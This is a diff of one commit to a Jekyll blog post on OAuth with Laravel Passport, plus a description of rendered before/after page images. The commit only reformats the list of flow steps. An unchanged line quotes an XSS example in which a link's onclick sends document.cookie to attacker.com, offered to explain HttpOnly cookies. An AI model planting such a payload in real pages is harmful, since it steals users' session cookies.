

Before and after one commit to Stdubic/Stevan-Aleksic-aka-Stdubic, a Jekyll site: the page built from _posts/2018-01-01-Implementing-OAuth-authorization-using-Laravel-Passport.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_posts/2018-01-01-Implementing-OAuth-authorization-using-Laravel-Passport.md
+++ b/_posts/2018-01-01-Implementing-OAuth-authorization-using-Laravel-Passport.md
@@ -5,19 +5,19 @@ layout: post
 
 Okay, so now have all the concepts in order. Now let us get to the code. We want to create a login screen for our SPA so the user can authenticate themselves. Let us just quickly recap the flow.
 
-We create a client in our OAuth server that represents our app
-The user enters username + password in the login screen and sends it to the API
-The API sends the username + password + client ID + client secret to the OAuth server
-The API saves the refresh token in a HttpOnly cookie
-The API sends the access token to the client
-The client saves the access token in storage, for instance a browser app saves it in localStorage
-The client requests something from the API attaching the access token to the request's Authorization header
-The API sends the access token to the OAuth server for validation
-The API sends the requested resource back to the client
-When the access token expires the client request the API for a new token
-The API sends the request token to the OAuth server for validation
-If valid, steps 4-6 repeats
-The reason why you should save the refresh token as a HttpOnly cookie is to prevent Cross-site scripting (XSS) attacks. The HttpOnly flag tells the browser that this cookie should not be accessible through javascript. If this flag was not set and your site let users post unfiltered HTML and javascript a malicious user could post something like this
+-We create a client in our OAuth server that represents our app
+-The user enters username + password in the login screen and sends it to the API
+-The API sends the username + password + client ID + client secret to the OAuth server
+-The API saves the refresh token in a HttpOnly cookie
+-The API sends the access token to the client
+-The client saves the access token in storage, for instance a browser app saves it in localStorage
+-The client requests something from the API attaching the access token to the request's Authorization header
+-The API sends the access token to the OAuth server for validation
+-The API sends the requested resource back to the client
+-When the access token expires the client request the API for a new token
+-The API sends the request token to the OAuth server for validation
+-If valid, steps 4-6 repeats
+-The reason why you should save the refresh token as a HttpOnly cookie is to prevent Cross-site scripting (XSS) attacks. The -HttpOnly flag tells the browser that this cookie should not be accessible through javascript. If this flag was not set and your site let users post unfiltered HTML and javascript a malicious user could post something like this
 
 <a href="#" onclick="window.location = 'http://attacker.com/stole.cgi?text=' + escape(document.cookie); return false;">Click here!</a>
 Malicious code is shamelessly stolen from Wikipedia: HTTP cookie
```
